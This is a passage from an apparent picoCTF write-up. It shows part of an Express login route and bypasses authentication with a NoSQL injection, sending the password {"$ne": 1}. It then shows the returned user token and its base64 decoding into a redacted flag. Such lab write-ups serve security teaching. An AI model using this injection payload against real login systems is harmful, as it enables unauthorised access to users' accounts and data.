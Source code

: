             if (user) {
              res.json({
                success: true,
                email: user.email,
                token: user.token,
                firstName: user.firstName,
                lastName: user.lastName,
              });
            } else {
              res.json({ success: false });
            }
          } catch (err) {
            res.status(500).json({ success: false, error: err.message });
          }
        });

        app.listen(port, () => {
        });
      } catch (err) {
        console.error(err);
      }
    }

    startServer().catch((err) => console.error(err));

There are similarities from the original challenge, we can see a user being created in `initialUser`, now with an email address of `picoplayer355@picoctf.org`.

The processing of the `/login` `POST` request has the same handling of the user provided password string, unsanitised.

So repeating the original attack with:

    email     = picoplayer355@picoctf.org
    password  = {"$ne": 1}

The response to the `/login` `POST` was a Status 200 with response payload:

    {
      "success":true,
      "email":"picoplayer355@picoctf.org",
      "token":"cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uXzc4NGU0MGU4fQ==",
      "firstName":"pico",
      "lastName":"player"
    }

Again, base64 decoding the `token` value:

    $ echo "cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uXzc4NGU0MGU4fQ==" | base64 -d
    picoCTF{...........redacted.............}
